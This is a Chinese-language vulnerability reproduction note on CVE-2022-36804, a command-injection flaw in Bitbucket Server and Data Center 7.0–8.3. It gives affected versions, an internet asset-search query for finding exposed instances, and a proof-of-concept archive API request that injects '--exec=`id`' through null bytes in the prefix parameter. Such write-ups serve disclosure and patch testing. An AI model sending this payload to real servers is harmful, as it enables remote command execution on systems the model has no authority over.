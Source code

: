 # Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

<a-checkbox checked>Atlassian Bitbucket  7.0～8.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1663725817384-5de92389-3230-42e1-937c-f21a2db84194.png)

验证POC

```sql
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![img](/assets/PeiQi-Wiki/img/1663725840976-179c5c01-3756-4090-83df-8dbb17e529c0.png)